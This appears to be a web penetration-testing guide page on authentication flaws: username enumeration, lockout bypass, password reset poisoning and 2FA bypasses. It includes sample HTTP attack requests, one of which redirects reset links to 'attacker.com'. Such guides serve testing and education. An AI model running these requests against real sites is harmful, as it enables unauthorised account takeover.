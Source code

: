 ```yaml
---
title: "Authentication"
weight: 2
description: "Explore key authentication testing techniques like username enumeration, password reset flaws, 2FA bypasses, and account lockout analysis."
---
```


# Authentication

## Username Enumeration

Finding valid usernames is the first step in many attacks. Test every feature interacting with user accounts (e.g., login, registration, password recovery).

{{< details summary="Common Default Usernames" >}}
Default usernames to test:

```sh
admin
administrator
root
firstname.lastname@somecompany.com
test
guest
```
{{< /details >}}

### Registration Form

If the application states "Account already exists" when registering a known email, it leaks user existence. 

### Response Comparison

Compare server responses when entering:
- A valid username with incorrect passwords
- An invalid username with incorrect passwords

Even minor differences in error messages can reveal valid usernames.

{{< hint style=tips >}}
**Tip**: Use Burp Suite's "Grep - Match" feature in Intruder to detect response variations.
{{< /hint >}}

### Response Timing Analysis

Some systems check passwords only if the username is valid. Sending an excessively long password may create a delay, indicating the username exists.

## Password Attacks

[Cracking passwords]({{< ref "misc/password-cracking" >}}) is a key part of authentication testing.


## Account Locking Mechanisms

Check if accounts lock after multiple failed attempts (e.g., 3 or 5 attempts). Understand the lockout mechanism:

- **Testing Responses**: Attempt logins with an incorrect password on a locked account, then with the correct password. If responses differ, the lock might be bypassable.
- **IP-Based Lockout**: The failed attempts counter resets if the IP owner logs in successfully. (Make sure that concurrent requests is set to 1)
Try bypassing with an `X-Forwarded-For` header.


## Password Reset Vulnerabilities

### Controlling the Username Parameter

If the reset request contains a `username` parameter, test if it can be changed:

```http
POST /forgot-password HTTP/2
Host: vulnerable-website.com

user=<victim>&new-pwd=NewPass123&token=xyz
```

### Predictable Password Reset URLs

Some sites use static or weakly random reset links. Test if a simple enumeration allows taking over accounts.

```http
http://vulnerable-website.com/reset-password?user=victim-user
```

### Hijacking Password Reset Links

Try injecting an `X-Forwarded-Host` header to change the reset link destination:

```http
POST /forgot-password HTTP/2
Host: vulnerable-website.com
X-Forwarded-Host: attacker.com

username=victim
```

## Two-Factor Authentication (2FA) Bypasses

### Brute-Forcing OTP

If the OTP code is short (e.g., 4-6 digits), brute-force it.

### Skipping 2FA Steps

Check if you can directly access logged-in pages without completing 2FA.

### Exploiting 2FA Logic Flaws
```http
# Step 1: Login with attacker account
POST /login HTTP/1.1
Host: vulnerable-website.com

username=attacker&password=qwerty
```

```http
# Step 2: Server sets a session cookie
HTTP/1.1 200 OK
Set-Cookie: session=attacker
```

```http
# Step 3: Request 2FA page with attacker's session
GET /login-steps/second HTTP/1.1
Cookie: session=attacker
```

```http
# Step 4: Submit the attacker's OTP using the victim's session
POST /login-steps/second HTTP/1.1
Host: vulnerable-website.com
Cookie: session=victim

verification-code=123456
```


## "Remember Me" Cookie Attacks

- Study how "Remember Me" cookies are generated (e.g., Base64 encoding or hashed values).
- Attempt brute-forcing attack.

## Password change

See if you can change the password of an arbitrary user. 
- Look for a hidden username parameter that you can control.
- Brute-force password when you enter your current password.
- Test all current & new password combinations.

```md
current password: <wrong>, new-password-1=XXX, new-password-2=XXX
current password: <wrong>, new-password-1=XXX, new-password-2=YYY
current password: <correct>, new-password-1=XXX, new-password-2=XXX
current password: <correct>, new-password-1=XXX, new-password-2=YYY
```